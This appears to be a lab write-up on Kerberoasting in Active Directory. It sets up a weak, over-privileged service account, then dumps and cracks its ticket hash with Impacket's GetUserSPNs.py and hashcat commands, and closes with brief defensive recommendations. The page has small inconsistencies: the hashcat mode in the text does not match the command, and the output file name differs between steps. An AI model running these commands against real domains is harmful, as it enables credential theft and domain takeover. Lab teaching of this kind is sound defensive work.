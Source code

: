 # Kerberoasting

## Configuring



1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open PowerShell as administrator and execute the following commands to create a user with the name `sa_admin` and set a SPN for it:

```
net user sa_admin Welcome123456! /add
setspn -A MSSQLsvc/DC03:1433 sa_admin
```

3\. Execute the following command to make the user `Enterprise Admin` and `Domain Admin`:

```
Add-ADGroupMember -Identity "Enterprise Admins" -Members sa_admin
Add-ADGroupMember -Identity "Domain Admins" -Members sa_admin
```

## Attacking

### How it works

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service.
>
> Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials
>
> Source: [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/)

### Tools

* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket to Kerberoast all roastable users.

```
python3 /opt/impacket/examples/GetUserSPNs.py 'amsterdam.bank.local/john:Welcome2022!' -dc-ip 10.0.0.2 -target-domain bank.local -outputfile kerberoast.txt
cat kerberoast.txt
```

![](<../../.gitbook/assets/image (14).png>)

2\. We retrieved one hash. Lets crack it with Hashcat. The parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `kerberoasting.txt`
* Passwords list: `passwords.txt`
* Rule list: `-r rules.rule`

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule
```

![](<../../.gitbook/assets/image (34).png>)

We successfully cracked the password of the user `sa_admin`, the password is `Welcome123456!`

## Defending

### Recommendations

* Use [Group Managed Service Accounts or Managed Service Accounts.](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
* Limit the privileges of Service Accounts.
* Use strong passwords (atleast 32 characters) on service accounts.

### Detection



## References

{% embed url="https://attack.mitre.org/techniques/T1558/003/" %}

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}
